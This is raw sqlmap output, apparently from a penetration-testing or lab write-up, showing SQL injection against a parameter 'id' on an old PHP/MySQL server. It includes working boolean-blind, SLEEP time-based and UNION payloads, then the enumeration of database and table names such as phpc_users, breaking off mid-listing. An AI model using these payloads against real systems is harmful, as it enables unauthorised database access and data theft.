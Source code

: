 [12:05:57] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[12:05:57] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[12:05:57] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[12:05:57] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[12:05:57] [INFO] testing 'MySQL inline queries'
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[12:05:57] [WARNING] time-based comparison requires larger statistical model, please wait....                                                                                         
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT)'
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[12:05:57] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[12:05:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[12:05:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[12:05:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[12:06:08] [INFO] GET parameter 'id' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT)' injectable
[12:06:08] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:06:08] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:06:08] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:06:08] [INFO] target URL appears to have 5 columns in query
[12:06:08] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: page=blog&title=Blog&id=2 AND 7114=7114

Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
Payload: page=blog&title=Blog&id=2 AND (SELECT * FROM (SELECT(SLEEP(5)))kOtW)

Type: UNION query
Title: Generic UNION query (NULL) - 5 columns
Payload: page=blog&title=Blog&id=2 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162707871,0x4f75614351414f4d6e69,0x7176717671),NULL--
---
[12:06:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL 5.0.12
[12:06:31] [INFO] fetching database names
[12:06:31] [INFO] fetching tables for databases: 'calendar, ehks, information_schema, mysql, roundcubemail, test'
Database: calendar
[5 tables]
+---------------------------------------+
| phpc_calendars                        |
| phpc_events                           |
| phpc_sequence                         |
| phpc_users                            |
| uid                                   |
+---------------------------------------+

Database: roundcubemail
[6 tables]
+---------------------------------------+